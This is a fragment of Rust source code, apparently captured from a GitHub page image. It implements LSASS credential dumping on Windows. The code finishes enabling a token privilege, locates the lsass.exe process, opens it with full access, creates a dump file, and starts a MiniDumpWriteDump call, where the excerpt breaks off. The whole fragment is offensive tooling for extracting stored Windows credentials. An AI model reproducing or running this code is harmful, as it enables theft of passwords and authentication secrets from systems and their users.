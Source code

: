 ```rust
                }
            } else {
                let last_error = GetLastError() ;
                println!("LookupPrivilegeValue failed with error: STATUS({:?})", last_error);
            }
            // 关闭访问令牌句柄
                CloseHandle(h_token);
        } else {
            let last_error = GetLastError() ;
            println!("OpenProcessToken failed with error: STATUS({:?})", last_error);
        }
    }
}

fn getProcess(LsassFile : &str) {

    unsafe{
        let mut h_snapshot =  CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if h_snapshot == INVALID_HANDLE_VALUE {
            println!("Failed to call CreateToolhelp32Snapshot");
        }
        let mut process_entry: PROCESSENTRY32 = std::mem::zeroed::<PROCESSENTRY32>()   ;
        process_entry.dwSize = size_of::<PROCESSENTRY32>() as u32;

        if Process32First(h_snapshot, &mut process_entry) == 0 {
            println!("Process32First error");
        }

        loop {
            let extFileName = CStr::from_ptr(process_entry.szExeFile.as_ptr() as *const i8).to_bytes();
            let extfile = OsString::from_wide(extFileName.iter().map(|&x| x as u16).collect::<Vec<u16>>().as_slice()).to_string_lossy().into_owned();
            if extfile.starts_with("lsass.exe"){
                println!("[+] Got {:?} PID: {:?}",extfile,process_entry.th32ProcessID);
                break;
            }
            if Process32Next(h_snapshot, &mut process_entry) == 0 {
                println!("Failed to call Process32Next");
                break;
            }
        }
        let lsass_pid = process_entry.th32ProcessID;
        let process_handle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsass_pid);
        if process_handle == 0 {
            println!("Fail to open the process ");
        }
        let lsassFile = LsassFile;
        let lsassFile: Vec<u16> = OsStr::new(lsassFile).encode_wide().chain(Some(0).into_iter()).collect();
        let lsasshandle = CreateFileW(
            lsassFile.as_ptr() as *const u16,
            GENERIC_ALL,
            0,
            ptr::null_mut(),
            CREATE_ALWAYS,
            FILE_ATTRIBUTE_NORMAL,
            0,
        );
        if lsasshandle == INVALID_HANDLE_VALUE {
            println!("Fail to open/create file {:?}",LsassFile.to_string());
        }
        let result = MiniDumpWriteDump(
```